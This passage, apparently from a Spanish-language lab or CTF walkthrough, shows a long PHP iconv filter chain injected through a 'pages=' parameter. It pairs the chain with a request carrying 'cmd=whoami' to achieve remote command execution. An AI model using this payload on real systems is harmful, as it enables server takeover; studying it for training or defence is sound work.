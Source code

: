 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos lo que empieza con `php://...` y lo pegaremos despues del `=` en el parametro `pages=`.

```
GET /index.php?cmd=whoami&pages=<CONTENT_WRAPPER_PHP> HTTP/1.1
Host: bypass403.pw
Referer: http://bypass403.pw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-10 115443.png" alt=""><figcaption></figcaption></figure>
